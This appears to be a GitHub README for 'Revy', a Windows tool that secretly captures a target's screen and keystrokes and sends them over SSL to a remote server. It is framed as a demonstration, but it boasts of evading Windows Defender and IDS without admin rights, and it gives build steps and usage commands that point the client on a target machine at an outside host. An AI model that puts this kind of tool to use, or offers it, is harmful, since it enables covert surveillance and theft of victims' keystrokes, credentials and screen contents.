 # <center> Revy - Windows Display & Keyboard Data Exfiltration </center>

This program is designed to be a demonstration of how vulnerable windows is to data exfiltration to a remote server.  
It reads the target's screen, compresses the raw data 100:1 for data extraction, and simultaneously captures the key inputs during this time as well. These two things are sent to a remote server over SSL to prevent IDS detection. To my knowledge this __isn't detected__ by windows defender as malware, it __doesn't require__ admin escalation, and isn't susceptible to __PPI__ or other IDS exfil prevention techniques.

## TODO
- Add web controller for the server component
- Add server to client reconfigureability

## Installation

__To compile for Windows__
- Download OpenSSL
- Set OPENSSL_DIR to the OpenSSL install location
- Build via cargo

__To compile for a remote server__
- SSL guide coming soon
- Build via cargo

## Usage
Start the remote server and start the client process on the target machine.
The target address (domain for SSL, IP for TCP) should be set in launch options
Ex:
```
TCP
./revy.exe 10.0.0.1 443
SSL
./revy.exe -s example.domain.xyz 443
```
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
